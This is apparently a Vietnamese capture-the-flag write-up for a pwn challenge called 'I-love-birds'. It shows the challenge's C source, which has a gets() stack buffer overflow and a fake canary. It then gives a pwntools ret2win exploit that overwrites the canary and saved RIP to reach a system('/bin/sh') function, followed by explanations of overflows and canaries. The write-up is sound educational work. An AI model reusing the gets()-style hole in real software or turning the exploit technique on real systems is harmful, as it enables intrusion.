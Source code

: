 ```yaml
---
title: Pwwn - I-love-birds
---
```


## Solution

```c
#include <stdio.h>
#include <stdlib.h>

void gadget() {
    asm("push $0x69;pop %rdi");
}


void win(int secret) {
    if (secret == 0xA1B2C3D4) {
        system("/bin/sh");
    }
}

int main() {
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);

    unsigned int canary = 0xDEADBEEF;

    char buf[64];

    puts("I made a canary to stop buffer overflows. Prove me wrong!");
    gets(buf); // Buffer Overflow

    if (canary != 0xDEADBEEF) {
        puts("No stack smashing for you!");
        exit(1);
    }

    return 0;
}
```

Chương trình có một lỗi `Buffer Overflow` ở hàm `gets(buf)`, ta có thể ghi đè lên biến `canary` để qua được kiểm tra và gọi hàm `win()` thông qua việc ghi đè saved RIP của hàm main.

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwnie import *
from subprocess import check_output
from time import sleep

context.log_level = 'debug'
context.terminal = ["wt.exe", "-w", "0", "split-pane", "--size", "0.65", "-d", ".", "wsl.exe", "-d", "Ubuntu-22.04", "--", "bash", "-c"]
exe = context.binary = ELF('./birds', checksec=False)
libc = exe.libc

gdbscript = '''
init-pwndbg
b *0x40125D
c
'''

def start(argv=[]):
    if args.GDB:
        p = process([exe.path] + argv, aslr=False)
        gdb.attach(p, gdbscript=gdbscript)
        pause()
        return p
    elif args.REMOTE:
        return remote(sys.argv[1], sys.argv[2])
    elif args.DOCKER:
        p = remote("localhost", 5000)
        sleep(0.5)
        pid = int(check_output(["pidof", "-s", "/app/run"]))
        gdb.attach(int(pid), gdbscript=gdbscript+f"\n set sysroot /proc/{pid}/root\nfile /proc/{pid}/exe", exe=exe.path)
        pause()
        return p
    else:
        return process([exe.path] + argv)


# ==================== EXPLOIT ====================
p = start()

canary = 0xDEADBEEF

sl(b'A'*0x48 + b'B'*4 + p32(canary) + p64(0) + p64(0x4011dc))

interactive()
```

## Mở rộng

- Buffer Overflow là một lỗi bảo mật xảy ra khi một chương trình cố gắng ghi dữ liệu vào một vùng bộ nhớ mà không kiểm tra kích thước của dữ liệu đó, dẫn đến việc ghi đè lên các vùng bộ nhớ khác. Trong trường hợp này, hàm `gets(buf)` không kiểm tra kích thước của chuỗi nhập vào, cho phép kẻ tấn công ghi đè lên các biến khác trong stack, bao gồm cả biến `canary` và địa chỉ trả về của hàm.

- Stack Canary là một kỹ thuật bảo mật được sử dụng để phát hiện và ngăn chặn các cuộc tấn công tràn bộ đệm (buffer overflow). Nó hoạt động bằng cách đặt một giá trị đặc biệt (canary) vào vùng bộ nhớ ngay trước địa chỉ trả về của hàm. Nếu giá trị này bị thay đổi, chương trình sẽ nhận ra rằng có một cuộc tấn công đã xảy ra và sẽ dừng thực thi. Ở đây, ta có thể thấy rằng giá trị canary được đặt là `0xDEADBEEF`, và nếu giá trị này bị thay đổi, chương trình sẽ dừng lại và không cho phép thực thi hàm `win()`. Stack Canary sẽ tuỳ vào kiến trúc mà có số byte khác nhau, ví dụ như trên x86-64 sẽ là 8 byte, trong khi trên x86 sẽ là 4 byte. Lưu ý rằng giá trị canary ở challenge này là giá trị tượng trưng, chứ không phải là giá trị canary thực tế. Trên thực tế canary đã được tắt trong lúc compile.

```sh
-----------------
| ...           |
-----------------
| Stack Canary  |
-----------------
| Saved RBP     |
-----------------
| Saved RIP     |
-----------------
```

- Saved RIP (Return Instruction Pointer) là một thanh ghi trong kiến trúc x86-64, nó lưu địa chỉ của lệnh tiếp theo sẽ được thực thi sau khi hàm hiện tại kết thúc. Khi xảy ra tràn bộ đệm, kẻ tấn công có thể ghi đè lên giá trị này để điều khiển luồng thực thi của chương trình, ví dụ như chuyển đến một hàm khác mà kẻ tấn công muốn thực thi.
